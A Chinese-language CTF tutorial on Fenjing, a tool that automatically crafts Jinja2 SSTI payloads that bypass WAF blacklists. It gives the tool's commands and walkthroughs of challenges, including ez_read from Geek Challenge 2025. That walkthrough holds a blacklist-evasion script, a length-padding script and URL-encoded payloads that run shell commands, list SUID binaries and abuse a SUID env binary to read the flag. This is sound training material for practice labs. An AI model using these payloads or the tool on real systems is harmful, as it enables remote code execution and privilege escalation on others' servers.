





# fenjing(焚靖)

SSTI最高的山

下载地址[Marven11/Fenjing: 专为CTF设计的Jinja2 SSTI全自动绕WAF脚本 )](https://github.com/Marven11/Fenjing)

焚靖是一个针对CTF赛事中常规Jinja SSTI题目开发的WAF检测与绕过工具。

焚靖融合了CTF赛事中常见的SSTI绕过技巧，可以灵活组合使用各类绕过技巧全自动构建payload绕过WAF.

焚靖既可以作为命令行程序使用，也可以作为python库导入到脚本中，其还提供一个网页UI方便不熟悉命令行的选手使用。这就代表着除了用脚本执行命令，还可以通过fuzz测试确定黑名单后利用fenjing构造获取执行命令的脚本，用于被限制无法直接执行的题目（比如输入必须是base64形式）

## Fenjing的安装运行：

使用pip进行安装运行：

```cmd
pip install fenjing
python -m fenjing webui
# python -m fenjing scan --url 'http://xxxx:xxx'
```

当然也可以直接下载github上的库，然后本地解压使用

## 使用：

### webui

可以直接在webui里指定参数并自动攻击

在左边填入并点击开始分析，然后在右边输入命令即可

### crack-request

还可以将HTTP请求写进一个文本文件里（比如说`req.txt`）然后进行攻击

文本文件内容如下：

```
GET /?name=PAYLOAD HTTP/1.1
Host: 127.0.0.1:5000
Connection: close
```

命令如下：

```
python -m fenjing crack-request -f req.txt --host '127.0.0.1' --port 5000
```

### 通过命令行使用

各个功能的介绍：

- webui: 网页UI
  - 顾名思义，网页UI
  - 默认端口11451
- scan: 扫描整个网站
  - 从网站中根据form元素提取出所有的表单并攻击
  - 根据给定URL爆破参数，以及提取其他URL进行扫描
  - 扫描成功后会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing scan --url 'http://xxx/'`
- crack: 对某个特定的表单进行攻击
  - 需要指定表单的url, action(GET或POST)以及所有字段(比如'name')
  - 攻击成功后也会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing crack --url 'http://xxx/' --method GET --inputs name`
- crack-path: 对某个特定的路径进行攻击
  - 攻击某个路径（如`http://xxx.xxx/hello/<payload>`）存在的漏洞
  - 参数大致上和crack相同，但是只需要提供对应的路径
  - 示例：`python -m fenjing crack-path --url 'http://xxx/hello/'`
- crack-request: 读取某个请求文件进行攻击
  - 读取文件里的请求，将其中的`PAYLOAD`替换成实际的payload然后提交
  - 根据HTTP格式会默认对请求进行urlencode, 可以使用`--urlencode-payload 0`关闭
- crack-json: 攻击指定的JSON API
  - 当一个API的body格式为JSON时攻击这个JSON中的某个键
  - 示例：`python -m fenjing crack-json --url 'http://127.0.0.1:5000/crackjson' --json-data '{"name": "admin", "age": 24, "msg": ""}' --key msg`
- crack-keywords: 读取文件中的所有关键字并攻击
  - 从.txt, .py或者.json文件中读取所有关键字，对给定的shell指令生成对应的payload
  - 示例：`python -m fenjing crack-keywords -k waf.json -o payload.jinja2 --command 'ls /'`

一些特殊的选项：

> 注意：这个功能是围绕Unix Shell设计的，不建议在Windows下使用这个选项

- `--eval-args-payload`：将payload放在GET参数x中提交

- `--detect-mode`：检测模式，可为accurate或fast

- `--environment`：指定模板的渲染环境，默认认为模板在flask中的`render_template_string`中渲染

- ```
  --tamper-cmd
  ```

  ：在payload发出前编码

  - 例如：
    - `--tamper-cmd 'rev'`：将payload反转后再发出
    - `--tamper-cmd 'base64'`：将payload进行base64编码后发出
    - `--tamper-cmd 'base64 | rev'`：将payload进行base64编码并反转后再发出

- 详细解释见[examples.md](https://github.com/Marven11/Fenjing/blob/main/examples.md)（直接抄github上的描述了）

## 案例：

### webui

就是通过fenjing提供的网页使用

指令：

```cmd
python -m fenjing webui
```


基本觉得ssti注入点

再检验一下



回显49,确认为ssti注入

找到你下载fenjing的目录，在终端中打开

输入

```cmd
python -m fenjing webui
```


按照要求填写好

`目标链接`:接收请求的地址，可以通过抓包获取，也可以直接查看网络


这里可以看到是./ssti

`请求方式`:GET&POST抓包获取

`表单输入`:注入的参数名称GET请求就是?后的，POST请求查看抓包结果在抓到的包最末尾一行通常是username=……或name=……这里的username或name就是表单

这道题最终填入

```python
目标链接：http://node4.anna.nssctf.cn:28651/ssti
请求方式：GET
表单输入：name
```

然后开始分析



可以看到，已经绕过了，在下面执行命令

```python
ls /
```

```python
cat /flag
```



###  导入作为库使用

这种方法运用在输入方式被限制的题目

比如2025极客大挑战的ez_read

这道题再上传payload时限制了字符串长度，114或514，所以需要先编写绕过黑名单的payload，再满足字符串要求

极客大挑战  ez_read

先注册一个账号，读文件的题目先尝试找源码

直接读或直接目录遍历读不到

```3.txt
当循环之夜跃过安达卢西亚的小岛，
穿越神秘之门，抛却一切期望，
我已深陷其中，漆黑如墨。
属于我的是那无尽的灰色，
我归属于那银色的梦境。

hint:坚持下坚持下去去
```

读到3.txt看到了一个hint

猜测是双写绕过

输入

```php
....//app.py
```

读到源码了

```python
from flask import Flask, request, render_template, render_template_string, redirect, url_for, session
import os

app = Flask(__name__, template_folder="templates", static_folder="static")
app.secret_key = "key_ciallo_secret"

USERS = {}


def waf(payload: str) -> str:
    print(len(payload))
    if not payload:
        return ""
        
    if len(payload) not in (114, 514):
        return payload.replace("(", "")
    else:
        waf = ["__class__", "__base__", "__subclasses__", "__globals__", "import","self","session","blueprints","get_debug_flag","json","get_template_attribute","render_template","render_template_string","abort","redirect","make_response","Response","stream_with_context","flash","escape","Markup","MarkupSafe","tojson","datetime","cycler","joiner","namespace","lipsum"]
        for w in waf:
            if w in payload:
                raise ValueError(f"waf")

    return payload


@app.route("/")
def index():
    user = session.get("user")
    return render_template("index.html", user=user)


@app.route("/register", methods=["GET", "POST"])
def register():
    if request.method == "POST":
        username = (request.form.get("username") or "")
        password = request.form.get("password") or ""
        if not username or not password:
            return render_template("register.html", error="用户名和密码不能为空")
        if username in USERS:
            return render_template("register.html", error="用户名已存在")
        USERS[username] = {"password": password}
        session["user"] = username
        return redirect(url_for("profile"))
    return render_template("register.html")


@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        username = (request.form.get("username") or "").strip()
        password = request.form.get("password") or ""
        user = USERS.get(username)
        if not user or user.get("password") != password:
            return render_template("login.html", error="用户名或密码错误")
        session["user"] = username
        return redirect(url_for("profile"))
    return render_template("login.html")


@app.route("/logout")
def logout():
    session.clear()
    return redirect(url_for("index"))


@app.route("/profile")
def profile():
    user = session.get("user")
    if not user:
        return redirect(url_for("login"))
    name_raw = request.args.get("name", user)
    
    try:
        filtered = waf(name_raw)
        tmpl = f"欢迎，{filtered}"
        rendered_snippet = render_template_string(tmpl)
        error_msg = None
    except Exception as e:
        rendered_snippet = ""
        error_msg = f"渲染错误: {e}"
    return render_template(
        "profile.html",
        content=rendered_snippet,
        name_input=name_raw,
        user=user,
        error_msg=error_msg,
    )


@app.route("/read", methods=["GET", "POST"])
def read_file():
    user = session.get("user")
    if not user:
        return redirect(url_for("login"))

    base_dir = os.path.join(os.path.dirname(__file__), "story")
    try:
        entries = sorted([f for f in os.listdir(base_dir) if os.path.isfile(os.path.join(base_dir, f))])
    except FileNotFoundError:
        entries = []

    filename = ""
    if request.method == "POST":
        filename = request.form.get("filename") or ""
    else:
        filename = request.args.get("filename") or ""

    content = None
    error = None

    if filename:
        sanitized = filename.replace("../", "")
        target_path = os.path.join(base_dir, sanitized)
        if not os.path.isfile(target_path):
            error = f"文件不存在: {sanitized}"
        else:
            with open(target_path, "r", encoding="utf-8", errors="ignore") as f:
                content = f.read()

    return render_template("read.html", files=entries, content=content, filename=filename, error=error, user=user)


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8080, debug=False)
```

发现在/profile中存在SSTI漏洞，但是有两个过滤，一个是字符串过滤只允许114或514个字符串；还有一个黑名单过滤

>  waf = ["__class__", "__base__", "__subclasses__", "__globals__", "import","self","session","blueprints","get_debug_flag","json","get_template_attribute","render_template","render_template_string","abort","redirect","make_response","Response","stream_with_context","flash","escape","Markup","MarkupSafe","tojson","datetime","cycler","joiner","namespace","lipsum"]

万能的fengjin又要出手了，依旧是利用fengjin的库写绕过脚本

```example.py
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str):
    blacklist = [
         "__class__",
    "__base__",
    "__subclasses__",
    "__globals__",
    "import",
    "self",
    "session",
    "blueprints",
    "get_debug_flag",
    "json",
    "get_template_attribute",
    "render_template",
    "render_template_string",
    "abort",
    "redirect",
    "make_response",
    "Response",
    "stream_with_context",
    "flash",
    "escape",
    "Markup",
    "MarkupSafe",
    "tojson",
    "datetime",
    "cycler",
    "joiner",
    "namespace",
    "lipsum"
    ]
    return all(word not in s for word in blacklist)

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "ls /")
   # config_payload = config_payload(waf)

    print(f"{shell_payload=}")
    #print(f"{config_payload=}")
```

> 使用方法:将脚本放在fengjin的文件夹中，在此处打开终端输入
>
> ```cmd
> python example.py
> ```

这样写好的payload肯定不满足字符串要求，于是再写一个脚本，计算字符串数量，然后利用`{#aaa#}`填充达到要求，脚本如下

```php
<?php
function adjustPayloadLength($payload, $targetLength) {
    $currentLength = strlen($payload);
    
    if ($currentLength == $targetLength) {
        return $payload;
    }
    
    if ($currentLength > $targetLength) {
        echo "错误: 原始payload长度($currentLength)已超过目标长度($targetLength)\n";
        return $payload;
    }
    
    $neededChars = $targetLength - $currentLength - 4; // 减去 {# 和 #} 的4个字符
    if ($neededChars < 0) {
        echo "错误: 需要添加的字符数为负数\n";
        return $payload;
    }
    
    // 添加注释
    $adjustedPayload = $payload . '{#' . str_repeat('a', $neededChars) . '#}';
    
    echo "原始payload: " . $payload . "\n";
    echo "原始长度: " . $currentLength . "\n";
    echo "目标长度: " . $targetLength . "\n";
    echo "需要添加的字符数: " . $neededChars . "\n";
    echo "调整后的payload: " . $adjustedPayload . "\n";
    echo "调整后长度: " . strlen($adjustedPayload) . "\n";
    
    return $adjustedPayload;
}

// 您的原始payload
$originalPayload = "{{url_for|attr('__glo'+'bals__')['os']|attr('popen')('find / -writable -type f 2>/dev/null | head -20')|attr('read')()}}";

echo "=== 调整到114字符 ===\n";
$payload114 = adjustPayloadLength($originalPayload, 114);

echo "\n=== 调整到514字符 ===\n";
$payload514 = adjustPayloadLength($originalPayload, 514);

echo "\n=== URL编码结果 ===\n";
echo "114字符payload URL编码: " . urlencode($payload114) . "\n";
echo "114字符payload URL编码后长度: " . strlen(urlencode($payload114)) . "\n";

echo "\n514字符payload URL编码: " . urlencode($payload514) . "\n";
echo "514字符payload URL编码后长度: " . strlen(urlencode($payload514)) . "\n";
?>
```


先`ls /`查看根目录发现flag文件，但是执行`cat /flag`时看不到文件

那就再看一下环境变量`env`

```php
%7B%7B%28_1919.__eq__%5B%27_%27%27_globals__%27%5D.sys.modules.os.popen%28%27env%27%29%29.read%28%29%7D%7D%7B%23aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa%23%7D
```

```php
CHALLENGE_019A2B37_D8ED_019A5423_5A85_PORT_8080_TCP_ADDR=10.109.205.200 KUBERNETES_PORT=tcp://10.96.0.1:443 KUBERNETES_SERVICE_PORT=443 CHALLENGE_019A2B37_D8ED_019A5423_5A85_SERVICE_HOST=10.109.205.200 CHALLENGE_019A302C_FAAF_019A1178_33A1_PORT=tcp://10.108.8.0:9999 CHALLENGE_019A7612_96BB_019A1189_B8EA_SERVICE_HOST=10.110.38.169 CHALLENGE_019A302C_FAAF_019A1178_33A1_SERVICE_PORT=9999 CHALLENGE_019A7612_96BB_019A1189_B8EA_PORT_8080_TCP_ADDR=10.110.38.169 HOSTNAME=challenge-019a2b37-d8ed-019a5423-5a85-5764748b44-z58gw CHALLENGE_019A2B37_D8ED_019A5423_5A85_PORT_8080_TCP_PORT=8080 CHALLENGE_019A01D2_4CF4_019A1182_21E4_SERVICE_HOST=10.108.67.59 CHALLENGE_019A302C_FAAF_019A1178_33A1_SERVICE_PORT_PORT_9999=9999 CHALLENGE_019A2B37_D8ED_019A5423_5A85_PORT_8080_TCP_PROTO=tcp CHALLENGE_019A7612_96BB_019A1189_B8EA_PORT_8080_TCP_PORT=8080 CHALLENGE_019A01D2_4CF4_019A1182_21E4_SERVICE_PORT_PORT_80=80 OLDPWD=/opt/___web_very_strange_42___ HOME=/opt/___web_very_strange_42___ CHALLENGE_019A7612_96BB_019A1189_B8EA_PORT_8080_TCP_PROTO=tcp CHALLENGE_019A7612_86C2_019A3D0B_DC2F_PORT_3000_TCP=tcp://10.110.89.162:3000 PYTHONUNBUFFERED=1 CHALLENGE_019A7612_86C2_019A3D0B_DC2F_SERVICE_HOST=10.110.89.162 CHALLENGE_019A2B37_D8ED_019A5423_5A85_SERVICE_PORT=8080 CHALLENGE_019A2B37_D8ED_019A5423_5A85_PORT=tcp://10.109.205.200:8080 GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D CHALLENGE_019A2B37_D8ED_019A7703_793E_SERVICE_HOST=10.106.216.17 CHALLENGE_019A8649_4AB3_019A10AD_1CF9_PORT_1337_TCP_ADDR=10.97.222.41 CHALLENGE_019A2B37_D8ED_019A7703_793E_PORT_8080_TCP_ADDR=10.106.216.17 CHALLENGE_019A7612_96BB_019A1189_B8EA_SERVICE_PORT=8080 CHALLENGE_019A7612_96BB_019A1189_B8EA_PORT=tcp://10.110.38.169:8080 PYTHON_SHA256=8d3ed8ec5c88c1c95f5e558612a725450d2452813ddad5e58fdb1a53b1209b78 CHALLENGE_019A01D2_4CF4_019A1182_21E4_PORT=tcp://10.108.67.59:80 CHALLENGE_019A8649_4AB3_019A10AD_1CF9_SERVICE_HOST=10.97.222.41 CHALLENGE_019A01D2_4CF4_019A1182_21E4_SERVICE_PORT=80 WERKZEUG_SERVER_FD=3 CHALLENGE_019A2B37_D8ED_019A7703_793E_PORT_8080_TCP_PORT=8080 CHALLENGE_019A8649_4AB3_019A10AD_1CF9_PORT_1337_TCP_PORT=1337 CHALLENGE_019A2B37_D8ED_019A5423_5A85_PORT_8080_TCP=tcp://10.109.205.200:8080 CHALLENGE_019A2B37_D8ED_019A7703_793E_PORT_8080_TCP_PROTO=tcp CHALLENGE_019A8649_4AB3_019A10AD_1CF9_PORT_1337_TCP_PROTO=tcp PYTHONDONTWRITEBYTECODE=1 CHALLENGE_019A7612_96BB_019A1189_B8EA_PORT_8080_TCP=tcp://10.110.38.169:8080 CHALLENGE_019A01CB_BF3C_019A1B57_0AD5_SERVICE_PORT_PORT_8080=8080 CHALLENGE_019A7612_86C2_019A3D0B_DC2F_SERVICE_PORT=3000 CHALLENGE_019A7612_86C2_019A3D0B_DC2F_PORT=tcp://10.110.89.162:3000 
HINT=用我提个权吧 
CHALLENGE_019A2B37_D8ED_019A7703_793E_SERVICE_PORT=8080 CHALLENGE_019A2B37_D8ED_019A7703_793E_PORT=tcp://10.106.216.17:8080 CHALLENGE_019A302C_FAAF_019A1178_33A1_PORT_9999_TCP_ADDR=10.108.8.0 CHALLENGE_019A01D2_4CF4_019A1182_21E4_PORT_80_TCP_ADDR=10.108.67.59 CHALLENGE_019A8649_4AB3_019A10AD_1CF9_PORT=tcp://10.97.222.41:1337 CHALLENGE_019A8649_4AB3_019A10AD_1CF9_SERVICE_PORT=1337 CHALLENGE_019A302C_FAAF_019A1178_33A1_PORT_9999_TCP_PORT=9999 KUBERNETES_PORT_443_TCP_ADDR=10.96.0.1 CHALLENGE_019A302C_FAAF_019A1178_33A1_PORT_9999_TCP_PROTO=tcp CHALLENGE_019A01D2_4CF4_019A1182_21E4_PORT_80_TCP_PORT=80 PATH=/usr/local/bin:/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin CHALLENGE_019A01D2_4CF4_019A1182_21E4_PORT_80_TCP_PROTO=tcp CHALLENGE_019A8649_4AB3_019A10AD_1CF9_PORT_1337_TCP=tcp://10.97.222.41:1337 CHALLENGE_019A2B37_D8ED_019A7703_793E_PORT_8080_TCP=tcp://10.106.216.17:8080 KUBERNETES_PORT_443_TCP_PORT=443 KUBERNETES_PORT_443_TCP_PROTO=tcp CHALLENGE_019A7612_86C2_019A3D0B_DC2F_SERVICE_PORT_PORT_3000=3000 LANG=C.UTF-8 CHALLENGE_019A01CB_BF3C_019A1B57_0AD5_PORT_8080_TCP_ADDR=10.99.229.85 CHALLENGE_019A01CB_BF3C_019A1B57_0AD5_SERVICE_HOST=10.99.229.85 PYTHON_VERSION=3.11.14 CHALLENGE_019A302C_FAAF_019A1178_33A1_PORT_9999_TCP=tcp://10.108.8.0:9999 CHALLENGE_019A01CB_BF3C_019A1B57_0AD5_PORT_8080_TCP_PORT=8080 CHALLENGE_019A01D2_4CF4_019A1182_21E4_PORT_80_TCP=tcp://10.108.67.59:80 CHALLENGE_019A2B37_D8ED_019A5423_5A85_SERVICE_PORT_PORT_8080=8080 CHALLENGE_019A01CB_BF3C_019A1B57_0AD5_PORT_8080_TCP_PROTO=tcp CHALLENGE_019A7612_96BB_019A1189_B8EA_SERVICE_PORT_PORT_8080=8080 KUBERNETES_SERVICE_PORT_HTTPS=443 KUBERNETES_PORT_443_TCP=tcp://10.96.0.1:443 KUBERNETES_SERVICE_HOST=10.96.0.1 CHALLENGE_019A01CB_BF3C_019A1B57_0AD5_SERVICE_PORT=8080 CHALLENGE_019A01CB_BF3C_019A1B57_0AD5_PORT=tcp://10.99.229.85:8080 PWD=/opt/___web_very_strange_42___ CHALLENGE_019A7612_86C2_019A3D0B_DC2F_PORT_3000_TCP_ADDR=10.110.89.162 CHALLENGE_019A302C_FAAF_019A1178_33A1_SERVICE_HOST=10.108.8.0 CHALLENGE_019A2B37_D8ED_019A7703_793E_SERVICE_PORT_PORT_8080=8080 CHALLENGE_019A7612_86C2_019A3D0B_DC2F_PORT_3000_TCP_PORT=3000 CHALLENGE_019A8649_4AB3_019A10AD_1CF9_SERVICE_PORT_PORT_1337=1337 CHALLENGE_019A7612_86C2_019A3D0B_DC2F_PORT_3000_TCP_PROTO=tcp CHALLENGE_019A01CB_BF3C_019A1B57_0AD5_PORT_8080_TCP=tcp://10.99.229.85:8080
```

发现hint，用我提个权吧，不懂问ai

大致懂了，先找suid权限的文件，再通过那里来执行文件

于是开始执行指令，方式同上，不再赘述

```php
find / -perm -4000 -type f 2>/dev/null | grep -vE "/proc|/sys"
```

查找suid权限文件

```php
%7B%7B%28%28g.pop%5B%27_%27%27_globals__%27%5D.__builtins__%5B%27__i%27%27mport__%27%5D%28%27os%27%29%29.popen%28%27find+%2F+-perm+-4000+-type+f+2%3E%2Fdev%2Fnull+%7C+grep+-vE+%5C%27%2Fproc%7C%2Fsys%5C%27%27%29%29.read%28%29%7D%7D%7B%23aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa%23%7D
```

文件如下：

```php
/usr/bin/su /usr/bin/gpasswd /usr/bin/chfn /usr/bin/chsh /usr/bin/umount /usr/bin/newgrp /usr/bin/passwd /usr/bin/mount /usr/local/bin/env
```

发现env文件可以使用，于是构造payload

```php
/usr/local/bin/env cat /flag
```

```php
%7B%7B%28%28g.pop%5B%27_%27%27_globals__%27%5D.__builtins__%5B%27__i%27%27mport__%27%5D%28%27os%27%29%29.popen%28%27%2Fusr%2Flocal%2Fbin%2Fenv+cat+%2Fflag%27%29%29.read%28%29%7D%7D%7B%23%23%7D
```


拿到flag

### 通过命令行使用

以我们学校新生赛的一道ssti为例


上传{{7*7}}的base64编码

```php
e3s3Kjd9fQ==
```

回显49，存在ssti漏洞



抓包，表单是`quote`


在kali下载fenjing，输入指令

```cmd
python -m fenjing crack --url 'http://node.szu.moe:10296/' --method POST --inputs quote --tamper-cmd 'base64'
```

爆破成功后就可以执行命令了



然后就可以执行命令了

```cmd
ls /
```

```cmd
cat /flag
```

不对，查看环境变量

```cmd
env
```


找到flag

